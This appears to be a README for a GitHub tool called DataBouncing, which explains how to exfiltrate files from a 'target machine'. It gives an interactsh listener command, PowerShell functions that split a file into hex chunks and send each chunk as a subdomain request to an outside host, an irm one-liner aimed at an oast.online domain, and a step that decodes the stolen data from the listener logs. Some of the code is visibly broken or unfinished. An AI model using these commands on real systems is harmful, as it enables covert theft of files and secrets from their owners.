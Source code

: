 # DataBouncing

You have two options. 
Use the [InteractSh Web Client](https://app.interactsh.com/#/) or 
use this [Build Script](https://github.com/Unit-259/DataBouncing/blob/main/Resources/interactshBuild.sh) with an Ubuntu 22.04 image.

Run this command on your listener machine to start the InteractSh Client and define your log file

```
interactsh-client -v -o /root/DataBouncing/logs.txt
```

Next on the target machine you are going to want to convert a file to Hex and prepare it for transfer with this script:
[chunks](https://github.com/Unit-259/DataBouncing/blob/main/Client/Convert-FileToHexChunks.ps1)

```powershell

function exfil {
    param (
        [string]xregex,
        [string]$domain,
        [string]$url
    )
    $segments = Convert-FileToHexChunks -FilePath .\file.txt
    foreach ($segment in $segments.PSObject.Properties) {
        $secret = $segment.Value;
        send-customRequest -Url "$regex.$url" -Domain "$domain"    
    }
}
```





```
function Demo-Secrets {
    param (
        [string]$xregex,
        [string]$urlSuffix
    )

    foreach ($segment in $segments.PSObject.Properties) {
        $secret = $segment.Value
        $url = "$xregex.$secret.$urlSuffix"
        Send-CustomRequest $url
    }
}
```

```
irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"
```



```
Convert-hexToAscii (find-secret -FilePath ./logs.txt -XRegex 'xregex')
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```
